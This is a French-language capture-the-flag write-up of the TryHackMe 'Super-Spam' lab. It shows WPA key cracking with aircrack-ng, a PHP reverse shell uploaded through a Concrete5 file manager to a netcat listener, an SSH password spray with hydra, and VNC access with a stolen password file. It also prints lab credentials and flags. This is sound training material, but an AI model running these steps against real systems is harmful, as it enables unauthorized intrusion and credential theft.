# Super-Spam #

## Task 1 Defeat Super-Spam ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.253.253 super-spam.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A super-spam.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-02 09:44 CET
Nmap scan report for super-spam.thm (10.10.253.253)
Host is up (0.059s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE   VERSION
80/tcp   open  ssl/http?
4012/tcp open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:60:04:c0:a5:36:46:67:f5:c7:24:0f:df:d0:03:14 (RSA)
|   256 ce:d2:f6:ab:69:7f:aa:31:f5:49:70:e5:8f:62:b0:b7 (ECDSA)
|_  256 73:a0:a1:97:c4:33:fb:f4:4a:5c:77:f6:ac:95:76:ac (ED25519)
4019/tcp open  ftp       vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Feb 20  2021 IDS_logs
|_-rw-r--r--    1 ftp      ftp           526 Feb 20  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
5901/tcp open  vnc       VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes: 
|_    STDV VNCAUTH_ (2)
6001/tcp open  X11       (access denied)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/2%OT=80%CT=1%CU=40876%PV=Y%DS=2%DC=T%G=Y%TM=6180FB1
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.38 ms 10.9.0.1
2   62.71 ms super-spam.thm (10.10.253.253)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.58 seconds

```

D'après nmap on a plusieurs services qui sont : 
Le service HTTP sur le port 80.   
Le service SSH sur le port 4012.   
Le service FTP  sur le port 4019.   
Le service VNC sur le port 5901.   
Le service X11 sur le port 6001.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp super-spam.thm 4019
Connected to super-spam.thm.
220 (vsFTPd 3.0.3)
Name (super-spam.thm:tim): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 ftp      ftp          4096 May 30 19:26 .
drwxr-xr-x    4 ftp      ftp          4096 May 30 19:26 ..
drwxr-xr-x    2 ftp      ftp          4096 May 30 19:26 .cap
drwxr-xr-x    2 ftp      ftp          4096 Feb 20  2021 IDS_logs
-rw-r--r--    1 ftp      ftp           526 Feb 20  2021 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (526 bytes).
226 Transfer complete.
526 bytes received in 0.00 secs (1.2895 MB/s)
ftp> cd .cap
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr--r--    1 ftp      ftp        370488 Feb 20  2021 SamsNetwork.cap
226 Directory send OK.
ftp> get SamsNetwork.cap
local: SamsNetwork.cap remote: SamsNetwork.cap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for SamsNetwork.cap (370488 bytes).
226 Transfer complete.
370488 bytes received in 0.47 secs (762.2590 kB/s)
```  

On se connecte sur le service FTP en mode anonymous.  
On récupère deux fichiers qui sont : note.txt et SamsNetwork.cap   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat note.txt
12th January: Note to self. Our IDS seems to be experiencing high volumes of unusual activity.
We need to contact our security consultants as soon as possible. I fear something bad is going
to happen. -adam

13th January: We've included the wireshark files to log all of the unusual activity. It keeps
occuring during midnight. I am not sure why.. This is very odd... -adam

15th January: I could swear I created a new blog just yesterday. For some reason it is gone... -adam

24th January: Of course it is... - super-spam :)
```

On a une note qui dit que on a rassembler toute les captures dans un fichier wireshark.   



On est sur un protocole 802.11 qui fait le pour réseaux wifi.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ aircrack-ng -w /usr/share/wordlists/rockyou.txt ./SamsNetwork.cap 

                               Aircrack-ng 1.6 

      [00:01:10] 806581/14344392 keys tested (11682.35 k/s) 

      Time left: 19 minutes, 18 seconds                          5.62%

                           KEY FOUND! [ sandiago ]


      Master Key     : 93 5E 0C 77 A3 B7 17 62 0D 1E 31 22 51 C0 42 92 
                       6E CF 91 EE 54 6B E1 E3 A8 6F 81 FF AA B6 64 E1 

      Transient Key  : 70 72 6D 26 15 45 F9 82 D4 AE A9 29 B9 E7 57 42 
                       7A 40 B4 D1 C3 27 EE 6A 8B 88 87 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 1E FB DC A0 1D 48 49 61 3B 9A D7 61 66 71 89 B0 
```

On casse le mot de passe avec aircrack-ng.  
On trouve le mot de passe sandiago.    

  

On a une remarque qui indique que le site a été piraté.   

  
  
  
 

Sur les articles on voit les noms des utilisateurs.   

 

On se connecte les identifiant : Donald_Dump:sandiago   

**What CMS and version is being used? (format: wordpress x.x.x)**

 

On la panneau de configuration on voit le nom du CMS et la version.   
On est sur : Concrete5 8.5.2   

**What is the user flag?**  

 

Dans le panneau de configuration allez dans File->Allowed File Types et ajouetez l'extension php et cliquez sur save.   

 

Dans File->File Manager téléverser un reverse shell en php.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.   

 

On clique sur le lien du reverse shell pour l'activer.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.219.161.
Ncat: Connection from 10.10.219.161:34926.
Linux super-spam 4.15.0-140-generic #144-Ubuntu SMP Fri Mar 19 14:12:35 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 19:28:02 up 13 min,  1 user,  load average: 0.07, 0.55, 0.72
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    :1               19:16   11:10   0.07s  0.07s sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@super-spam:/$ ls /home
ls /home
benjamin_blogger  donalddump  lucy_loser  personal  super-spam

bewww-data@super-spam:/$ cd /home/lucy-loser/
www-data@super-spam:/home/lucy_loser$ ls -al
ls -al
total 44
drwxr-xr-x 7 lucy_loser lucy_loser 4096 Apr  9  2021 .
drwxr-xr-x 7 root       root       4096 Feb 20  2021 ..
drwxr-xr-x 2 lucy_loser lucy_loser 4096 May 30 20:03 .MessagesBackupToGalactic
lrwxrwxrwx 1 root       root          9 Apr  9  2021 .bash_history -> /dev/null
-rw-r--r-- 1 lucy_loser lucy_loser  220 Feb 20  2021 .bash_logout
-rw-r--r-- 1 lucy_loser lucy_loser 3771 Feb 20  2021 .bashrc
drwx------ 2 lucy_loser lucy_loser 4096 Feb 20  2021 .cache
drwx------ 3 lucy_loser lucy_loser 4096 Feb 20  2021 .gnupg
-rw-r--r-- 1 lucy_loser lucy_loser  807 Feb 20  2021 .profile
-rw-r--r-- 1 root       root         28 Feb 24  2021 calcs.txt
drwxr-xr-x 2 root       root       4096 Feb 24  2021 prices
drwxr-xr-x 2 root       root       4096 Feb 24  2021 work

www-data@super-spam:/home/lucy_loser$ cat calcs.txt
cat calcs.txt
Suzy logs. to be completed.
```

On a un utilisateur lucy_loser dans le répertoire on voit un fichier cacls.txt qui est un note qui dit que les log sont finis.

```bash
www-data@super-spam:/home/lucy_loser$ cd .MessagesBackupToGalactic
cd .MessagesBackupToGalactic
www-data@super-spam:/home/lucy_loser/.MessagesBackupToGalactic$ ls -al
ls -al
total 1720
drwxr-xr-x 2 lucy_loser lucy_loser   4096 May 30 20:03 .
drwxr-xr-x 7 lucy_loser lucy_loser   4096 Apr  9  2021 ..
-rw-r--r-- 1 lucy_loser lucy_loser 172320 Apr  8  2021 c1.png
-rw-r--r-- 1 lucy_loser lucy_loser 171897 Apr  8  2021 c10.png
-rw-r--r-- 1 lucy_loser lucy_loser 168665 Apr  8  2021 c2.png
-rw-r--r-- 1 lucy_loser lucy_loser 171897 Apr  8  2021 c3.png
-rw-r--r-- 1 lucy_loser lucy_loser 171462 Apr  8  2021 c4.png
-rw-r--r-- 1 lucy_loser lucy_loser 167772 Apr  8  2021 c5.png
-rw-r--r-- 1 lucy_loser lucy_loser 167772 Apr  8  2021 c6.png
-rw-r--r-- 1 lucy_loser lucy_loser 171462 Apr  8  2021 c7.png
-rw-r--r-- 1 lucy_loser lucy_loser 171734 Apr  8  2021 c8.png
-rw-r--r-- 1 lucy_loser lucy_loser 173994 Apr  8  2021 c9.png
-rw-r--r-- 1 lucy_loser lucy_loser  20987 Apr  8  2021 d.png
-rw-r--r-- 1 lucy_loser lucy_loser    497 May 30 20:03 note.txt
-rw-r--r-- 1 lucy_loser lucy_loser   1200 Apr  8  2021 xored.py
www-data@super-spam:/home/lucy_loser/.MessagesBackupToGalactic$ cat note.txt
cat note.txt
Note to self. General super spam mentioned that I should not make the same mistake again of re-using the same key for the XOR encryption of our messages to Alpha Solaris IV's headquarters, otherwise we could have some serious issues if our encrypted messages are compromised. I must keep reminding myself,do not re-use keys,I have done it 8 times already!.The most important messages we sent to the HQ were the first and eighth message.I hope they arrived safely.They are crucial to our end goal.
```

Dans le répertoire .MessagesBackupToGalactic on trouve des images png, une note est un scripte python.   
Dans la note il parle d'un chiffrement xor et que la clef a été réutilisée 8 fois.   

```bash
www-data@super-spam:/home/lucy_loser/.MessagesBackupToGalactic$ python3 -m http.server
<r/.MessagesBackupToGalactic$ python3 -m http.server            
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
...
tim@kali:~/Bureau/tryhackme/write-up$ wget -r http://super-spam.thm:8000/ -nv
2021-11-02 20:45:08 URL:http://super-spam.thm:8000/ [786/786] -> "super-spam.thm:8000/index.html" [1]
http://super-spam.thm:8000/robots.txt:
2021-11-02 20:45:08 erreur 404 : File not found.
2021-11-02 20:45:08 URL:http://super-spam.thm:8000/c1.png [172320/172320] -> "super-spam.thm:8000/c1.png" [1]
2021-11-02 20:45:09 URL:http://super-spam.thm:8000/c10.png [171897/171897] -> "super-spam.thm:8000/c10.png" [1]
2021-11-02 20:45:09 URL:http://super-spam.thm:8000/c2.png [168665/168665] -> "super-spam.thm:8000/c2.png" [1]
2021-11-02 20:45:09 URL:http://super-spam.thm:8000/c3.png [171897/171897] -> "super-spam.thm:8000/c3.png" [1]
2021-11-02 20:45:09 URL:http://super-spam.thm:8000/c4.png [171462/171462] -> "super-spam.thm:8000/c4.png" [1]
2021-11-02 20:45:10 URL:http://super-spam.thm:8000/c5.png [167772/167772] -> "super-spam.thm:8000/c5.png" [1]
2021-11-02 20:45:10 URL:http://super-spam.thm:8000/c6.png [167772/167772] -> "super-spam.thm:8000/c6.png" [1]
2021-11-02 20:45:10 URL:http://super-spam.thm:8000/c7.png [171462/171462] -> "super-spam.thm:8000/c7.png" [1]
2021-11-02 20:45:11 URL:http://super-spam.thm:8000/c8.png [171734/171734] -> "super-spam.thm:8000/c8.png" [1]
2021-11-02 20:45:11 URL:http://super-spam.thm:8000/c9.png [173994/173994] -> "super-spam.thm:8000/c9.png" [1]
2021-11-02 20:45:11 URL:http://super-spam.thm:8000/d.png [20987/20987] -> "super-spam.thm:8000/d.png" [1]
2021-11-02 20:45:11 URL:http://super-spam.thm:8000/note.txt [497/497] -> "super-spam.thm:8000/note.txt" [1]
2021-11-02 20:45:11 URL:http://super-spam.thm:8000/xored.py [1200/1200] -> "super-spam.thm:8000/xored.py" [1]
Terminé — 2021-11-02 20:45:11 —
Temps total effectif : 3,2s
Téléchargés : 14 fichiers, 1,7M en 1,8s (933 KB/s)
...
tim@kali:~/Bureau/tryhackme/write-up$ cd super-spam.thm\:8000/
```

   

Sur l'image d.png on arrive à voir le code $$L3qwert30kcool.   

**What key information was embedded in one of super-spam's encrypted messages?**

L'information clés était : $$L3qwert30kcool  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat name.txt 
benjamin_blogger
donalddump
lucy_loser
personal
super-spam

tim@kali:~/Bureau/tryhackme/write-up$ hydra -L name.txt -p '$$L3qwert30kcool' ssh://super-spam.thm -s 4012
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-02 21:39:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://super-spam.thm:4012/
[4012][ssh] host: super-spam.thm   login: donalddump   password: $$L3qwert30kcool
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-02 21:39:06

```

On test tout les utilisateurs avec le mot de passe.   
Hydra nous trouve l'utilisateur donalddump.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh donalddump@super-spam.thm -p 4012
donalddump@super-spam.thm's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-140-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov  2 20:42:30 UTC 2021

  System load:  0.0                Processes:           100
  Usage of /:   26.7% of 19.56GB   Users logged in:     1
  Memory usage: 75%                IP address for eth0: 10.10.254.80
  Swap usage:   0%


71 packages can be updated.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Tue Nov  2 20:36:32 2021 from 10.9.228.66
Could not chdir to home directory /home/donalddump: Permission denied
-bash: /home/donalddump/.bash_profile: Permission denied

donalddump@super-spam:/$ cd /home/donalddump/
-bash: cd: /home/donalddump/: Permission denied

donalddump@super-spam:/$ ls -al /home/
total 28
drwxr-xr-x  7 root             root             4096 Feb 20  2021 .
drwxr-xr-x 22 root             root             4096 Apr  9  2021 ..
drwxr-xr-x  2 benjamin_blogger benjamin_blogger 4096 Apr  9  2021 benjamin_blogger
drw-rw----  6 donalddump       donalddump       4096 Apr  9  2021 donalddump
drwxr-xr-x  7 lucy_loser       lucy_loser       4096 Apr  9  2021 lucy_loser
drwxr-xr-x  5 root             root             4096 May 30 20:08 personal
drwxr-xr-x  4 super-spam       super-spam       4096 Apr  9  2021 super-spam

donalddump@super-spam:/$ chmod +rwx /home/donalddump/
```

On se connecte sur compte de donalddump mais on peut pas aller dans le répertoire donalddump car on a pas les droits.  
On met les bons droits sur donalddump.  

**What is the user flag?**

```bash
donalddump@super-spam:/$ chmod +rwx /home/donalddump/
donalddump@super-spam:/$ cd /home/donalddump/
donalddump@super-spam:~$ ls -al
total 44
drwxrwxr-x 6 donalddump donalddump 4096 Apr  9  2021 .
drwxr-xr-x 7 root       root       4096 Feb 20  2021 ..
lrwxrwxrwx 1 root       root          9 Apr  9  2021 .bash_history -> /dev/null
-rw-r--r-- 1 donalddump donalddump  220 Feb 20  2021 .bash_logout
-rw-r--r-- 1 donalddump donalddump 3771 Feb 20  2021 .bashrc
drwx------ 2 donalddump donalddump 4096 Apr  8  2021 .cache
drwx------ 3 donalddump donalddump 4096 Apr  8  2021 .gnupg
drwxr-xr-x 2 root       root       4096 Feb 24  2021 morning
drwxr-xr-x 2 root       root       4096 Feb 24  2021 notes
-rw-r--r-- 1 root       root          8 Apr  8  2021 passwd
-rw-r--r-- 1 donalddump donalddump  807 Feb 20  2021 .profile
-rw-rw-r-- 1 donalddump donalddump   36 Apr  9  2021 user.txt
donalddump@super-spam:~$ cat user.txt 
flag{-eteKc=skineogyls45«ey?t+du8}
```

Dans le répertoire donalddump il y a un fichier user.txt.
On lit le fichier user.txt et on a le flag qui est : flag{-eteKc=skineogyls45«ey?t+du8}    

**What is the root flag?**   

On a un fichier passwd.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ scp -P 4012 donalddump@super-spam.thm:~/passwd ./
donalddump@super-spam.thm's password: 
passwd                                                                                                                                                                                                      100%    8     0.2KB/s   00:00 
tim@kali:~/Bureau/tryhackme/write-up$ vncviewer -passwd passwd super-spam.thm:5901
```

On se connecte sur le service vnc.   

  
  

Dans le répertoire root on repère un répetoire .nothing qui contient un fichier r00t.txt.   
Le fichier r00t.txt contient un message chiffré.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'MZWGCZ33NF2GKZKLMRRHKPJ5NBVEWNWCU5MXKVLVG4WTMTS7PU======' | base32 -d
flag{iteeKdbu==hjK6§YuUu7-6N_}   

tim@kali:~/Bureau/tryhackme/write-up$ echo 'KRUGS4ZANFZSA3TPOQQG65TFOIQSAWLPOUQG2YLZEBUGC5TFEBZWC5TFMQQHS33VOIQGEZLMN53GKZBAOBWGC3TFOQQHI2DJOMQHI2LNMUWCASDBMNVWK4RNNVQW4LBAMJ2XIICJEB3WS3DMEBRGKIDCMFRWWIDXNF2GQIDBEBRGSZ3HMVZCYIDNN5ZGKIDEMFZXIYLSMRWHSIDQNRQW4IDUN4QGOZLUEBZGSZBAN5TCA5DIMF2CA2LOMZSXE2LPOIQG64DFOJQXI2LOM4QHG6LTORSW2LBAJRUW45LYFYQA====' | base32 -d
This is not over! You may have saved your beloved planet this time, Hacker-man, but I will be back with a bigger, more dastardly plan to get rid of that inferior operating system, Linux.
```

On décode les messages et on a notre flag.   
Le flag est : flag{iteeKdbu==hjK6§YuUu7-6N_}   